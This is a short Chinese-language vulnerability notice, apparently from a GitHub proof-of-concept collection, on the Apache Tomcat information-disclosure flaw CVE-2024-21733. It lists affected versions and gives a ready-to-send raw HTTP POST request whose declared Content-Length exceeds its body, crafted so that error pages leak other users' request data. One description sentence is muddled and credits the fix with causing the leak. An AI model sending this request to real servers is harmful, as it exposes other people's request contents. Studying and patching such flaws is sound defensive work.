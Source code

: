 ## Apache Tomcat存在信息泄露漏洞( CVE-2024-21733)

2024年1月25日公司监测到Apache Tomcat 信息泄露漏洞（CVE-2024-21733）情报。Apache Tomcat 是一个开源 Java Servlet 容器和 Web 服务器，用于运行 Java 应用程序和动态网页。Coyote 是 Tomcat 的连接器，处理来自客户端的请求并将它们传递Tomcat 引擎进行处理。攻击者可以通过构造特定请求，在异常页面中输出其他请求的body 数据,修复版本中通过增加 finally 代码块,保证默认会重设缓冲区 position 和 limit 到一致的状态，从而造成信息泄露。


## 影响版本
```
从8.5.7到8.5.63
9.0.0-M11到9.0.43
```


## poc
```
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

![image](https://github.com/wy876/POC/assets/139549762/15933e83-bb51-4d91-ba49-c31ab8d27cdb)

